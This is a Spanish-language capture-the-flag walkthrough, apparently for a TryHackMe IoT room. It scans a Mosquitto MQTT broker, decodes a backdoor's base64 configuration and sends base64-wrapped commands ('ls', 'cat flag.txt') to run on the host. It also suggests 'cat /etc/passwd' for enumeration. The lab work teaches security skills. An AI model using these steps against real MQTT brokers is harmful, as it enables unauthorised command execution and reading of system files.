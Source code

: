 Bienvenidos a otra sala de tryhackme, en esta ocasion ayudaremos a John a investigar actividad sospechosa dentro de sus tecnologias IoT. Utilizaremos nuestro scaneo nmap para encontrar puertos abiertos y su respectiva informacion. Luego nos adentraremos del puerto 1883 (Mosquitto) utilizando las herramientas `mosquitto_sub & mosquitto_pub` para subscribirnos a una configurar y desde otra parte poder enviar mensajes antes de poder reclamar nuestra flag.

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.22s latency).
Scanned at 2023-05-26 19:18:16 EDT for 30s
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE                  REASON         VERSION
1883/tcp open  mosquitto version 2.0.14 syn-ack ttl 62

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 26 19:18:46 2023 -- 1 IP address (1 host up) scanned in 30.18 seconds

```

Como podemos ver, obtenemos nuestro puerto 1883 (Mosquitto) abierto con su respectiva informacion. Para obtener una vista mas detallada del que configuraciones estan habilitadas y cual utiliza John, realizaremos otro scaneo de nmap con el script por defecto asi nos enumera todas sus configuraciones y si vemos alguna actividad sospechosa en ella.
Ejecutamos el siguiente comando `sudo nmap -p 1883 -sCV IPTARGET -oN nmap2`

```ruby

PORT     STATE SERVICE                  VERSION
1883/tcp open  mosquitto version 2.0.14
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/load/messages/received/15min: 20.48
|     $SYS/broker/load/messages/sent/5min: 65.64
|     $SYS/broker/uptime: 231 seconds
|     $SYS/broker/load/messages/received/5min: 49.18
|     $SYS/broker/load/bytes/sent/5min: 882.45
|     storage/thermostat: {"id":5077919781334851750,"temperature":24.097372}
|     $SYS/broker/load/bytes/received/1min: 4335.58
|     $SYS/broker/load/publish/sent/5min: 16.47
|     $SYS/broker/load/connections/1min: 1.90
|     $SYS/broker/version: mosquitto version 2.0.14
|     $SYS/broker/load/bytes/sent/15min: 333.31
|     $SYS/broker/bytes/received: 16305
|     $SYS/broker/clients/active: 2
|     $SYS/broker/clients/maximum: 3
|     yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config: eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
|     $SYS/broker/load/messages/sent/15min: 26.51
|     $SYS/broker/load/sockets/5min: 0.97
|     $SYS/broker/clients/disconnected: 1
|     frontdeck/camera: {"id":3409962715125157732,"yaxis":-89.83001,"xaxis":-171.43459,"zoom":0.49935168,"movement":false}
|     $SYS/broker/bytes/sent: 7714
|     livingroom/speaker: {"id":7910963578592638383,"gain":66}
|     kitchen/toaster: {"id":10117717584146372151,"in_use":false,"temperature":146.48466,"toast_time":305}
|     patio/lights: {"id":3573975033886317032,"color":"WHITE","status":"OFF"}
|     $SYS/broker/load/sockets/15min: 0.37
|     $SYS/broker/publish/bytes/sent: 1235
|     $SYS/broker/subscriptions/count: 5
|     $SYS/broker/clients/inactive: 1
|     $SYS/broker/store/messages/bytes: 283
|     $SYS/broker/clients/connected: 2
|     $SYS/broker/publish/messages/sent: 148
|     $SYS/broker/load/bytes/received/15min: 963.47
|     $SYS/broker/load/publish/sent/15min: 6.03
|     $SYS/broker/load/messages/sent/1min: 142.88
|     $SYS/broker/load/messages/received/1min: 94.09
|     $SYS/broker/load/bytes/sent/1min: 2403.76
|     $SYS/broker/messages/sent: 492
|     $SYS/broker/clients/total: 3
|     $SYS/broker/load/bytes/received/5min: 2305.89
|     $SYS/broker/load/sockets/1min: 2.71
|     $SYS/broker/publish/bytes/received: 11540
|     $SYS/broker/load/publish/sent/1min: 48.78
|     $SYS/broker/load/connections/5min: 0.78
|     $SYS/broker/load/connections/15min: 0.31
|_    $SYS/broker/messages/received: 346

```

# Research 

Anteriormente obtuvimos informacion especifica sobre las posibles amenzas que pueden afectar a John en su configuracion IoT. Podremos ver algo fuera de lo comun que parece estar codificado en base64 : `yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config: eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==`

Si decodificamos el mensaje, nos quedaria de la siguiente manera : 
```python
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==" | base64 -d

{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```

Con esto en mente, veremos las subscripcion que configuro el atacante `XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub` y  el canal que utilizo para comunicarse `U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub`. En este caso, haremos lo mismo que el atacante realizo con las herramientas `mosquitto_pub & mosquitto_sub `, para instalar estas herramientas utilizaremos `sudo apt install mosquitto-clients`. 

Abriremos dos terminales, y escribiremos las siguientes consultas :

```ruby
mosquitto_sub -h IPTARGET -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub
mosquitto_pub -h IPTARGET -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m "hello"
```

Basicamente lo que estamos haciendo con estos comandos, es comunicarnos a traves de las configuraciones. Una vez nos subscribimos, nos pondremos en "escucha" para recibir cualquier tipo de mensaje. Por otra parte, en el otro comando le estaremos mandando mensajes para recibirlos, algo simple como "hello".
Una vez realizada esta accion, nos dara el siguiente mensaje codificado :
`SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=

Al decodificarnos nos mostrara : 

```
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```

Por lo que podremos utilizar comandos dentro de una terminal respetando el formato (base64). Podremos realizar la siguiente consulta 

```python
{"id": "44433553", "cmd": "CMD", "arg": "ls"}

## Codificamos

eyJpZCI6ICI0NDQzMzU1MyIsICJjbWQiOiAiQ01EIiwgImFyZyI6ICJscyJ9

## Escribimos 

mosquitto_pub -h IPTARGET -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m eyJpZCI6ICI0NDQzMzU1MyIsICJjbWQiOiAiQ01EIiwgImFyZyI6ICJscyJ9

## Nos responde donde estamos subscripto

eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9

## Decodificamos

{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}

```

Podremos ver que funciona, y esta almacenada nuestra flag, por lo que solo tendrias que modificar la siguiente consulta para poder echarle un vistazo a su contenido : 

```python
{"id": "44433231653", "cmd": "CMD", "arg": "cat flag.txt"}
```

Repetimos el proceso y reclamamos la flag. Tambien puede pobrar utilizando comandos de enumeracion como `cat /etc/passwd` y asi obtener un poco mas de informacion del sistema.